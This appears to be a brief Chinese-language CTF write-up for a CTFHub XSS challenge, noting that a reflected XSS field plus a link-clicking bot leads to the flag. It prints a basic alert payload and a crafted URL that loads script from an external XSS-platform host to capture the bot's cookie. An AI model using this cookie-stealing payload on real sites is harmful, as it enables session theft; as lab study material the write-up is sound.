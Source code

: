 # CTFHUB_xss

## 题目内容

![image-20210824222657728](/home/adian/note/Study_Note/网络安全/CTF/pic/23.png)


## WriteUp

第一栏有一个反射型xss，通用语法即可成功弹窗

```
<script>alert('222')</script>
```

但是这和flag没关系

所以flag一定在send url处,点击send只会提示successful，但是既然有bot,那就说明会点击链接

使用xss平台即可打到cookie

```
http://challenge-f646219db9de580d.sandbox.ctfhub.com:10800/?name=123<sCRiPt sRC=//xss8.cc/Kb7u></sCrIpT>
```

我对这个感觉有些奇怪，因为我以为bot本身就是平台，所以可以直接打进去XSS语句，没想到要利用url的这个反射型XSS

